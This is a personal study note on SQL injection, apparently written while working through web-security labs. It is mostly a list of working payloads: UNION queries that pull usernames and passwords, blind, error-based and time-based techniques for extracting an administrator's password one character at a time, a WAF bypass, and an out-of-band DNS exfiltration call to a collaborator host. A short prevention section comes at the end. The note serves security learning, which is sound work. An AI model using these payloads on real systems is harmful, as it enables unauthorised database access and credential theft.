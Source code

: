 # SQL injection

basicaly a vulnerabily where you have an input value
that you can manipulate
and is insecurely send to the sql database
thus giving us access more access then we should have


## note
sometimes a + needs to be used in stead of spaces

## payloads explained

simplest is:
test' OR 1=1 --

this completes the query with test
but then closes it
add the OR operator
1=1 making any query correct
-- commenting out the rest of the line

sometimes payloads dont just work,
fe in the url they sometimes could need to be url encoded to work

## union selects

' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--
' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL,NULL--
using this we can determine if there can be selected more collums

after determining the collumns
we can use the following to search for a particular string
' UNION SELECT 'searchstring',NULL,NULL--
' UNION SELECT NULL,'searchstring',NULL--
' UNION SELECT NULL,NULL,'searchstring'--

union abuse is using union statement
to merge another table
' UNION SELECT user,password FROM users--

if there arent enough collumns
you could concatenate another collumns
' UNION SELECT username || '~' || password FROM users--
|| '~' || this is a seperator in an oracle database

## gathering extra info
using builtin stuff,
combining with for example a UNION

Database type           Query
Microsoft, MySQL        SELECT @@version
Oracle                  SELECT * FROM v$version
PostgreSQL              SELECT version()

## schema
most databases have a table with the schema
this is a table containing info of the tables
SELECT * FROM information_schema.tables
SELECT * FROM information_schema.columns WHERE table_name = 'Users'

first gathering the collumns
' ORDER BY 2--

then gather the tables
' UNION SELECT TABLE_NAME,NULL FROM information_schema.tables--

then gathering the columns of the table
' UNION SELECT TABLE_NAME,COLUMN_NAME FROM information_schema.columns WHERE table_name = 'foundtablename'--
or if being uncertain this reveals all collumns with table name to search in
' UNION SELECT TABLE_NAME,COLUMN_NAME FROM information_schema.columns--

after finding the collumn names we can use these and the specific table to gather info we need to know
' UNION SELECT columnname1,columnname2 FROM tablename--

## blind injection
is more difficult,
it does not directly show the content of the query
but it changes a response fe showing a welcome message

fe
xyz' AND '1'='1
xyz' AND '1'='2
the first would show the welcome message
but the second would not bcs it would be false

after determining the difference you'd need to check the password 1by1
xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 'm
if its true the first character fo the password is greater than m
thus trying the next its half we can narrow down the correct password
xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 't
xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) = 's

abcdefghijklmnopqrstuvwxyz0123456789

ofc its tedious to do this for longer passwords
thus using chatgpt you can write a quick "bruteforcer"
see "script/sql_blind.py"

## error based
even harder

like the blind injection
we get another output in the errors
thus making it throw a different error based on if anything is true or false

first testing
'
gives an error
showing us we get a syntax error
''
shows its fixed showing no error

givesn another error
'||(SELECT '')||'

fixes the error
'||(SELECT '' FROM dual)||'

trying a nonexistant table gives an error
'||(SELECT '' FROM tryingannonexistanttable)||'

trying to get some users
'||(SELECT '' FROM users WHERE ROWNUM = 1)||'


when recieving an error we get the error
'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'
'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'

if we find a user we can determine the password length
'||(SELECT CASE WHEN LENGTH(password)>1 THEN to_char(1/0) ELSE '' END FROM users WHERE username='administrator')||'

then checking the char at each location
'||(SELECT CASE WHEN SUBSTR(password,1,1)='a' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'

ofc this will take to long to do
thus we write ask gpt to ask make a script
see "script/sql_error.py"


verbose erroring
sometimes a usefull error is returned like syntax error ' on line...
trying with a cast we could maybe get useful data out oof it
CAST((SELECT example_column FROM example_table) AS int)

'
this gave an error
'--
fixed the error
' AND CAST((SELECT 1) AS int)--
another error
' AND 1=CAST((SELECT 1) AS int)--
fixed the previous error
now inserting our generic select
' AND 1=CAST((SELECT username FROM users) AS int)--
we got an error that showed our query being cut of so removing the part of the original cookie fixed this
' AND 1=CAST((SELECT username FROM users) AS int)--
errorr says to much rows
' AND 1=CAST((SELECT username FROM users LIMIT 1) AS int)--
errorr now says the first username
' AND 1=CAST((SELECT password FROM users LIMIT 1) AS int)--
and just changing to get the password retrieves us the credentials

## time based sql
basicaly the sql executes but doesnt return anything different
but we could try to insert a delay based on if something is true
as the webapps are executed synchronously we could manipulate this
'; IF (1=2) WAITFOR DELAY '0:0:10'--
'; IF (1=1) WAITFOR DELAY '0:0:10'--
'; IF (SELECT COUNT(Username) FROM Users WHERE Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') = 1 WAITFOR DELAY '0:0:{delay}'--
'%3BSELECT+CASE+WHEN+(YOUR-CONDITION-HERE)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--

first testing the different responses
'%3BSELECT+CASE+WHEN+(1=1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--
'%3BSELECT+CASE+WHEN+(1=2)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--
then getting a username from a table
'%3BSELECT+CASE+WHEN+(username='administrator')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
then getting its password length
'%3BSELECT+CASE+WHEN+(username='administrator'+AND+LENGTH(password)>50)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
'%3BSELECT+CASE+WHEN+(username='administrator'+AND+LENGTH(password)=20)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
and then getting bruteforcing the password
'%3BSELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,1,1)='a')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--

ofc this is tedious and we let our buddy gpt
write a script for it "script/sql_timed.py"

## out-of-band (OAST) technique
if a different thread is used to execute the query
then we could try to get info by performing a network query to a server we control

most time dns could be used to extract data bcs dns most times doesnt get blocked bcs its essential for normal operations
'; exec master..xp_dirtree '//0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net/a'--

sometimes not only a string is used
but it could be hidden in xml or json

fe xml
1+1
1 UNION SELECT username || '~' || password FROM users
got us detected by a waf
<@hex_entities>1 UNION SELECT username || '~' || password FROM users<@/hex_entities>
abusing a feature of xml
gets us bypassing it

## stored sql
is saving the sql input somewhere for later use
then later gets abused

## how to prevent
use prepared statements,
parameter based querys,
instead of string concatenations,
prohibit a list of words that can exist in fields


## payloads

stored in: [sql payloads](../../lists/sql.md)

https://portswigger.net/web-security/sql-injection/cheat-sheet

